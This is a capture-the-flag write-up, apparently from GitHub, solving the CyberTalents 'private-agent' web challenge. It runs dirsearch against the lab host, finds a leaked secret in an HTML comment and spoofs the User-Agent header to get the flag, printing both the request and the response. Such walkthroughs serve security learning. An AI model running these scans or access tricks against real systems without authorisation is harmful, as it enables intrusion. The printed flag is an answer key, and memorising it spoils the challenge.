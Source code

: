 # Solve private-agent
#### https://cybertalents.com/challenges/web/private-agent

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6meg23gk9h8z4kj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found

```html
<!-- TO_Be_Removed => Privet-Agent access => givittome-->
```

### Change the request User-Agent to givittome

```http
GET / HTTP/1.1
Host: wcamxwl32pue3e6meg23gk9h8z4kj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: givittome
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt text](images/image-1.png)
The Flag is in the response

```http
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Sat, 15 Jun 2024 13:01:18 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1808
Connection: close
X-Powered-By: PHP/7.2.34
Xflag: W3lcome_Ag3nt8
Vary: Accept-Encoding
```

>Find More on ==> github.com/MedhatHassan 
